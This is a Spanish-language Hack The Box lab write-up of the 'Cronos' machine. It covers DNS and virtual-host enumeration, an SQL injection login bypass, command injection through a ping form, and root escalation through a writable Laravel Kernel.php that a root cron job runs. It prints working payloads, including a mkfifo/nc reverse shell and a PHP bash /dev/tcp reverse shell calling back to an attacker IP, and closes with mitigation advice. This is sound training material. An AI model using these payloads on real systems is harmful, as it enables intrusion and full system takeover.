





# Cronos

[{ .maquina-icono }](https://app.hackthebox.com/machines/Cronos)

## Resumen

Máquina Linux de dificultad media que gira en torno a un servidor web y un **DNS**. A partir
del propio DNS se descubre el dominio `cronos.htb` y, fuzzeando *virtual hosts*, aparece un
panel de administración en `admin.cronos.htb` vulnerable a **inyección SQL**: un *bypass* de
autenticación da acceso sin credenciales. Dentro, un formulario que ejecuta `ping`/`traceroute`
permite **inyección de comandos**, con la que se consigue una *reverse shell* como `www-data`
y la flag de usuario. La escalada a root abusa de una tarea **cron** que ejecuta la aplicación
**Laravel** (`artisan`) como root cada minuto: uno de los ficheros que esa tarea ejecuta
(`Kernel.php`) es escribible por `www-data`, así que al sustituirlo por una *reverse shell* se
obtiene acceso como root.

## Reconocimiento

Primero, para confirmar el sistema operativo de la máquina, hacemos un ping:

```
64 bytes from 10.129.227.211: icmp_seq=1 ttl=63 time=52.5 ms
```

Al ser un TTL cercano a 64 (63), se trata de un sistema Linux.

### Enumeración de puertos

Para ver los puertos TCP abiertos:

```
nmap -p- --open -T4 --min-rate 5000 -Pn 10.129.227.211
```

```
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

Tenemos un **SSH**, un **HTTP** y un **resolutor de DNS**. Para sacar versiones:

```
nmap -p 53,80,22 -sVC -T4 --min-rate 5000 -Pn 10.129.227.211
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Un servidor Apache antiguo y un servicio DNS (BIND) también antiguo. El `--script vuln` no da
nada aprovechable, así que seguimos por la web y el DNS.

## Enumeración

### DNS y dominio

Al tratarse mayormente de una web, hago un `dig` para resolver el dominio a partir de la IP
(resolución inversa):

```
dig @10.129.227.211 -x 10.129.227.211
```

```
211.227.129.10.in-addr.arpa. 604800 IN  PTR  ns1.cronos.htb.
```

Una de las respuestas es `ns1.cronos.htb`, por lo que confirmamos que **`cronos.htb`** es un
dominio de esa IP. Lo añadimos a `/etc/hosts`:

```
echo "10.129.227.211 cronos.htb" | sudo tee -a /etc/hosts
```

### Virtual hosts

Fuzzeamos subdominios por cabecera `Host`:

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cronos.htb/ -H "HOST: FUZZ.cronos.htb" -t 100 -ac -c
```

```
admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
```

Dos subdominios. Los añadimos también al `/etc/hosts`:

```
echo "10.129.227.211 cronos.htb www.cronos.htb admin.cronos.htb" | sudo tee -a /etc/hosts
```

En `www.cronos.htb` hay una página web y en `admin.cronos.htb` tenemos un **login**.

### Inyección SQL en el login

En la descripción de la máquina se indica que incluye una pequeña introducción a la **inyección
SQL**. Al analizar el formulario de `admin.cronos.htb`, se detecta que el campo `username` es
vulnerable. Antes de explotarlo a mano, confirmo el tipo de inyección con `sqlmap`:

```
sqlmap -u "http://admin.cronos.htb/index.php" --data="username=admin&password=admin" -p username --batch
```

`sqlmap` identifica `username` como inyectable mediante **time-based blind SQL injection**,
confirmando que el motor es **MySQL**:

```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 4893 FROM (SELECT(!SLEEP(5)))kwjQ) AND 'XmDE'='XmDE&password=admin
```

Con la inyección confirmada, pruebo un **bypass de autenticación** manual. La consulta
subyacente tiene probablemente esta forma:

```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

Introduciendo en el campo `username` la siguiente carga:

```
' OR '1'='1'-- -
```

la consulta resultante queda:

```sql
SELECT * FROM users WHERE username='' OR '1'='1'-- -' AND password='...'
```

La condición `'1'='1'` es siempre verdadera y `-- -` comenta el resto, por lo que la
comprobación de la contraseña nunca se evalúa. Esto permite acceder al panel sin credenciales
válidas, redirigiendo a `welcome.php` tras el login.

## Explotación

Una vez dentro, identificamos un pequeño desplegable con el que se pueden ejecutar comandos:
`ping` o `traceroute`. Como el comando se construye con nuestra entrada, podemos añadir un
**separador** (`;`) y encadenar una *reverse shell*.

Seleccionamos la opción `ping`, ponemos nuestra IP `10.10.16.120` y, a continuación:

```
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.120 4444 >/tmp/f
```

Mientras, ponemos un *listener* en el 4444:

```
nc -lvnp 4444
```

Al recibir la shell, la estabilizamos:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

Somos el usuario `www-data`. Aun así, podemos ir al directorio de `noulis` y leer su flag:

```
cat /home/noulis/user.txt
```

```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Para escalar privilegios hay que fijarse en el **crontab**:

```
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Es la única tarea que se ejecuta cada minuto, y lo hace como **root**. Ejecuta la aplicación
**Laravel** a través de `artisan`. Pero `artisan` en sí no hace el trabajo: solo arranca el
*kernel* de consola (`$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class)`), que es
el programa principal. Es decir, el código que realmente corre vive en la clase `Kernel`.



Buscamos dónde está ese `Kernel.php`:

```
find / -iname "Kernel.php" 2>/dev/null
```



```
/var/www/laravel/app/Console/Kernel.php
```

Comprobamos sus permisos:

```
ls -l /var/www/laravel/app/Console/Kernel.php
```



```
-rw-r--r-- 1 www-data www-data 477 Nov  2 12:17 Kernel.php
```

El fichero es de **`www-data`** (nosotros), así que tenemos permiso de escritura sobre él, y la
tarea cron lo ejecuta como **root** cada minuto. Lo sustituimos por una *reverse shell*.

Un detalle que importa: lo que se carga es un fichero **PHP**, no un script de shell. La
tarea llama a `php .../artisan schedule:run`, y `artisan` acaba incluyendo `Kernel.php`, así
que el código que se ejecute tiene que ser PHP válido. Por eso la *reverse shell* va
envuelta en `<?php system(...); ?>`: el `system()` es quien lanza la shell.



```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.120/4445 0>&1'"); ?>
```

Ponemos un *listener* en el 4445 y esperamos a que salte el cron (máximo un minuto):

```
nc -lvnp 4445
```

Recibimos la conexión como **root** y leemos la flag:



```
cd /root && cat root.txt
```

```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Parametrizar las consultas** (sentencias preparadas) en el login: nunca concatenar la
  entrada del usuario en el SQL. Eso elimina de raíz tanto el *bypass* como el *blind SQLi*.
- **No construir comandos del sistema con entrada del usuario**: si hace falta `ping`, usar
  APIs seguras o validar estrictamente la entrada (lista blanca), nunca pasarla a una shell.
- **Revisar permisos de los ficheros que ejecuta una tarea `cron` como root**: ningún fichero
  ejecutado por root debería ser escribible por un usuario sin privilegios como `www-data`.
  Aplicar el **principio de mínimo privilegio** a `/var/www`.
- Mantener **Apache, BIND y SSH actualizados**.

## Qué he aprendido

- El **DNS** es una fuente de enumeración por sí mismo: aquí dio el dominio y, con él, los
  *virtual hosts* que abrían toda la aplicación.
- Un **SQLi** no siempre hay que explotarlo a lo grande: un simple *bypass* de autenticación
  (`' OR '1'='1'-- -`) ya abre el panel.
- La clave de la escalada no era la tarea `cron` en sí, sino **qué fichero ejecuta y con qué
  permisos**: un `Kernel.php` escribible por `www-data` y ejecutado por root convierte la
  escalada en sustituir un fichero y esperar un minuto.
